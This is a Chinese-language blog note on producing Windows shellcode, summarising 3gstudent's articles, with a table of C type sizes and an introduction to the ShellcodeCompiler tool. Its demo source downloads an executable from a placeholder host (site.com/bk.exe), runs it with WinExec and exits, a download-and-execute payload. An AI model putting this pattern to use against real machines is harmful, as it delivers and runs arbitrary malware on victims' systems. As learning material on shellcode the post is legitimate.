 ```yaml
---
title: Inter 自动化shellcode
tags: [汇编]
index_img: https://gitee.com//L0yy/BlogImg/raw/master/typora/codeorg2019_social.png
banner_img: https://gitee.com//L0yy/BlogImg/raw/master/typora/codeorg2019_social.png
---
```


## 思路：

学习来源[3gstudent](https://3gstudent.github.io/3gstudent.github.io/Windows-Shellcode%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0-shellcode%E7%9A%84%E6%8F%90%E5%8F%96%E4%B8%8E%E6%B5%8B%E8%AF%95/)

总结`3gstudent`的两篇文章

>小知识

|        类型         | 32位大小 | 64位大小 |
| :-----------------: | :------: | :------: |
|        char         | 1个字节  | 1个字节  |
| char*（即指针变量） | 4个字节  | 8个字节  |
|      short int      | 2个字节  | 2个字节  |
|         int         | 4个字节  | 4个字节  |
|    unsigned int     | 4个字节  | 4个字节  |
|        float        | 4个字节  | 4个字节  |
|       double        | 8个字节  | 8个字节  |
|        long         | 4个字节  | 8个字节  |
|      long long      | 8个字节  | 8个字节  |
|    unsigned long    | 4个字节  | 8个字节  |


## shellcode 生成的三种方法

### 1.手工

可以先利用vs生成exe，运行时去拿汇编出来，这种方式和手写汇编差不多，需要构造各种变量，不推荐使用

### 2.使用自动化工具
[shellcode compiler](https://github.com/NytroRST/ShellcodeCompiler)
使用的时候下载release程序，生成shellcode就能用。目前已经支持平台

> Windows (x86 and x64) and Linux (x86 and x64)

使用方法：给了很多例子，这里说明一个Demo
```c++
    function URLDownloadToFileA("urlmon.dll");     
	//等于GetProcAddress(LoadLibraryA("urlmon.dll"), "URLDownloadToFileA");
    function WinExec("kernel32.dll");
    function ExitProcess("kernel32.dll");

    URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);    // 直接调用api即可
    WinExec("bk.exe",0);
    ExitProcess(0);
```
将上面的保存为sourse.txt，然后生成shellcode即可
